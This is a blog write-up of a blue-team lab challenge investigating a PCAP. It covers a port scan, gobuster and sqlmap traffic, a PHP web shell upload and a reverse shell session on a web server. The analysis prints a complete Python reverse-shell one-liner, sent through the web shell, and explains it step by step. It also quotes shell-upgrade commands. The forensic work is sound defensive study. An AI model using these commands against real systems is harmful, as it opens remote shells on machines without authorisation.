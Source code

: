 ```yaml
---
draft: false
author: ladybuginthemug
title: Network Analysis – Web Shell
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-01-06
category:
  - blueteamlabs
---
```


[Network Analysis – Web Shell
](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)

>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to a close-up investigation of streams. 

#### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP**.  By sorting ports we can instantly identify port incrementation which is an indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u
Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`


![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and `sqlmap 1.4.7`


![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
#### FILE UPLOAD

**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)

The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)

`GET /uploads/ HTTP/1.1` and response `HTTP/1.1 200 OK` with HTML of a simple directory listing page generated by an Apache web server - confirmed it :

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
....  processed HTML content ....

Title: Index of /uploads

Main Heading: Index of /uploads

[PARENTDIR]	Parent Directory	  -	 
	dbfunctions.php	2021-02-07 16:40	116	 
	myphoto.png	2021-02-07 16:38	7.1K	

Apache/2.4.29 (Ubuntu) Server at 10.251.96.5 Port 80

```

We can spot the first commands used in the web shell :

```
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a TCP-based Python reverse shell with connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- When the code executes /bin/sh the shell inherits the redirections and communicates with the remote user via the socket 

```
p=subprocess.call(["/bin/sh","-i"]);
```

---

#### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.
However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.
Not only that but also a malicious actor was not even able to clean up traits he left behind in the form of `dbfuncs.php`:

```
addcart.php  common.php     consts.php	 editprofile.php  info.php   upload.php
browse.php   complaint.php  dbfuncs.php  index.php	  login.php  uploads
www-data@bob-appserver:/var/www/html$ rrmm  ddbb	funcs.php 

rm: cannot remove 'dbfuncs.php': Operation not permitted
www-data@bob-appserver:/var/www/html$ llss

```

